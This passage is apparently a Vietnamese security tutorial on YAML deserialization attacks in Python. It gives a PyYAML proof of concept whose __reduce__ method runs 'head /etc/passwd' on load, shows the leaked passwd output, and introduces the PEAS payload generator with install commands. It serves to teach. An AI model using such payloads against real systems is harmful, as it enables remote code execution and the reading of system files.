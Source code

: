 Các thư viện như **PyYAML** và **ruamel.yaml** tuần tự hóa dữ liệu ở định dạng **YAML**. Tương tự như với **Pickle** và **JSONPickle**, việc deserialization các đối tượng với phương thức `__reduce__()` có thể dẫn đến việc thực thi mã độc (RCE) khi dữ liệu tuần tự hóa được tải mà không có sự kiểm tra hợp lệ.

#### **Ví Dụ với PyYAML:**

```python
import yaml
import subprocess

class RCE():
    def __reduce__(self):
        return subprocess.Popen, (["head", "/etc/passwd"],)

# Serialize (tạo payload)
exploit = yaml.dump(RCE())
print(exploit)

# Deserialize (mã lỗ hổng)
yaml.load(exploit, Loader=yaml.FullLoader)
```

**Kết Quả Mong Đợi (Thực Thi Lệnh):**

Mặc dù sẽ xuất hiện một thông báo lỗi khi cố gắng deserialization, lệnh `head /etc/passwd` vẫn được thực thi, chứng tỏ rằng tấn công đã thành công.

Mặc dù thông báo lỗi dài xuất hiện, kết quả của lệnh `head /etc/passwd` vẫn được thực thi, hiển thị thông tin nhạy cảm:

```bash
root:x:0:0:root:/root:/usr/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

Để tìm hiểu thêm về các tấn công deserialization trong YAML:
- [YAML Deserialization Attack in Python](https://net-square.com/yaml-deserialization-attack-in-python.html)
- [Exploit-DB: YAML Deserialization Attack in Python](https://www.exploit-db.com/docs/english/47655-yaml-deserialization-attack-in-python.pdf)

---

### **PEAS (Python Exploit Anti-Serialization)**

PEAS là một bộ công cụ đa năng có thể tạo ra payloads tấn công deserialization cho các thư viện như **JSONPickle**, **PyYAML**, và **ruamel.yaml**. Nó giúp các nhà nghiên cứu bảo mật nhanh chóng tạo ra và kiểm tra các payload tấn công, làm cho nó trở thành công cụ thiết yếu để khai thác các lỗ hổng deserialization trong các ứng dụng Python.

#### **Cài Đặt:**

```bash
git clone https://github.com/j0lt-github/python-deserialization-attack-payload-generator.git
cd python-deserialization-attack-payload-generator/
pip3 install -r requirements.txt
```

